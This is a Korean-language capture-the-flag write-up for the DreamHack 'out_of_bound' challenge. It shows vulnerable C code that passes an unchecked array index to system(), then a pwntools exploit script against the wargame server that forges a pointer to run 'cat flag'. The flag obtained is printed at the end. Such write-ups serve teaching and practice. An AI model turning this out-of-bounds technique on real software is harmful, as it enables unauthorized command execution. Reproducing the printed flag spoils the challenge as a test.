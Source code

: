 # [DreamHack] out_of_bound

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(out_of_bound)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 셸을 획득하세요.
> “flag” 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [out_of_bound.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8533208/out_of_bound.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160265427-b8d37842-7c62-4c9d-8f71-75d39b986e19.png)

## Analysis

```c
char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

`idx`의 범위 검사를 거치지 않아서 OOB가 발생한다.

![image](https://user-images.githubusercontent.com/102066383/160265549-c4d7696b-e876-40bd-aff2-271a223361a1.png)

`command`와 `name`은 메모리 상에 위 사진과 같이 위치해 있는데, `name`에 실행시키고 싶은 커맨드 문자열의 주소를 적으면 OOB로 `name`에 접근해서 그 커맨드를 실행시킬 수 있다. `name+0`에 `name+4`(`0x804a0b0`)를 쓰고, `name+4`에는 `cat flag`를 쓰면 `system("cat flag")`가 실행되어 플래그를 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/out_of_bound')
else:
    r = remote('host1.dreamhack.games', 14171)

name = 0x804a0ac  # var <name>

admin_name = p32(name + 4)
admin_name += b'cat flag'

r.sendafter('Admin name: ', admin_name)
r.sendlineafter('What do you want?: ', '19')

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 14171: Done
[*] Switching to interactive mode
DH{2524e20ddeee45f11c8eb91804d57296}
```